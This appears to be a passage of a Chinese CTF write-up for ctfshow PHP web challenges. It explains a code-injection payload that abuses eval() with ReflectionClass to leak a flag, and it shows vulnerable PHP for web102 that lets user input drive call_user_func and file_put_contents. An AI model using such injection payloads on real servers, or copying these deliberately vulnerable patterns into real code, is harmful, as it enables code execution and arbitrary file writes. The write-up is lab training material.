 ```php
        if(!preg_match("/\\\\|\/|\~|\`|\!|\@|\#|\\$|\%|\^|\*|\(|\-|\_|\+|\=|\{|\[|\"|\'|\,|\.|\?|[0-9]/", $v3)){
            eval("$v2('ctfshow')$v3");
        }
    }
}
?>
```

与上题类似，但过滤了挺多东西的，`var_dump`和一句话木马都用不了了

由于括号被过滤，很多函数都用不了

所以考虑用上源代码自带的`('ctfshow')`

查下函数，发现

`Reflection`

```
PHP Reflection API是PHP5才有的新功能，它是用来导出或提取出关于类、方法、属性、参数等的详细信息，包括注释。
$class = new ReflectionClass(‘ctfshow’); // 建立 Person这个类的反射类
$instance = $class->newInstanceArgs($args); // 相当于实例化ctfshow类
```

于是构造payload

`?v1=1&v2=echo new Reflectionclass&v3=;`

得到

```
Class [ class ctfshow ] { @@ /var/www/html/ctfshow.php 15-17 - Constants [0] { } - Static properties [0] { } - Static methods [0] { } - Properties [3] { Property [ public $dalaoA ] Property [ public $dalaoB ] Property [ public $flag_1d77656b-3d33-4b7c0x2d8ae1-e69178dbced ] } - Methods [0] { } }
```

flag手动转换一下发现缺一位，手动爆破一下就好(16进制 只有16个数)

1d77656b-3d33-4b7c-8ae1-e69178dbced

1d77656b-3d33-4b7c-8ae1-e69178dbced

1d77656b-3d33-4b7c-8ae1-e69178dbced

+++

### <font color='orange'>web102(不太懂)</font>

+++

```php
<?php
highlight_file(__FILE__);
$v1 = $_POST['v1'];
$v2 = $_GET['v2'];
$v3 = $_GET['v3'];
$v4 = is_numeric($v2) and is_numeric($v3);
if($v4){
    $s = substr($v2,2);
    $str = call_user_func($v1,$s);
    echo $str;
    file_put_contents($v3,$str);
}
else{
    die('hacker');
}


?>
```
